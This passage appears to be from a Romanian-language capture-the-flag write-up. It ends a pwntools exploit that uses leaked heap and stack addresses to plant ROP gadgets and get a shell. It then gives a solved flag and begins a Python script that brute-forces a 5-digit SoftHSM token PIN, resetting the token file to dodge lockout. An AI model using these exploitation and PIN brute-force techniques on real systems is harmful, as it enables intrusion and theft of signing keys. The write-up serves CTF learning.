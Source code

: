 ```py

    d = d.split(b' ')

    #libc_leak = int(d[-1],16)
    #stack_leak = int(d[-2], 16)
    heap_leak = int(d[-6], 16)

    log.info(f'Libc base: {hex(libc.address)}')
    log.info(f'Stack leak: {hex(stack_leak)}')
    log.info(f'Heap leak: {hex(heap_leak)}')

    r.sendlineafter(b'Offset & Value', f'{hex((stack_leak - heap_leak - 16) // 8)} {hex(pop_rdi)}'.encode())
    r.sendlineafter(b'Offset & Value', f'{hex((stack_leak - heap_leak - 24) // 8)} {hex(ret)}'.encode())

    r.interactive()


if __name__ == "__main__":
    main()
```

**CTF{9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08}**

<a name="decrypt-this"></a>
## decrypt-this (483 pts, 1 solve) - Cryptography

Enunt:
```
Tocmai ce ai primit câteva date encriptate și cheile necesare pentru a le decripta. Știind că mecanismul folosit este RSA-PKCS, iar PIN-ul are doar 5 cifre, cum ai putea decripta datele primite?

Flag format: CTF{sha256}
```

Primim conținutul unui `token digital`, folosit pentru semnături electronice.

```py
import os
import subprocess

# Constants
softhsm_lib_path = '/usr/lib/softhsm/libsofthsm2.so'
token_label = 'Default'
data_file = 'data.bin'

# Function to brute-force the PIN
def brute_force_pin():
    for pin in range(100000):
        pin_str = f"{pin:05d}"
        print(f"Trying PIN: {pin_str}")

        try:
            # Attempt to login with the current PIN using p11tool
            os.popen('cp /home/adragos/softhsm2/orig/80837632-90de-859e-38fc-a89393b35f19/token.object /home/adragos/softhsm2/80837632-90de-859e-38fc-a89393b35f19/token.object').read()
            result = subprocess.run(
                ['pkcs11-tool', '--module', '/usr/lib/x86_64-linux-gnu/softhsm/libsofthsm2.so', '-l', '-t', '-p', pin_str],
                capture_output=True, text=True, check=True
            )

            # If successful, return the PIN
            print(f"Successfully authenticated with PIN: {pin_str}")
```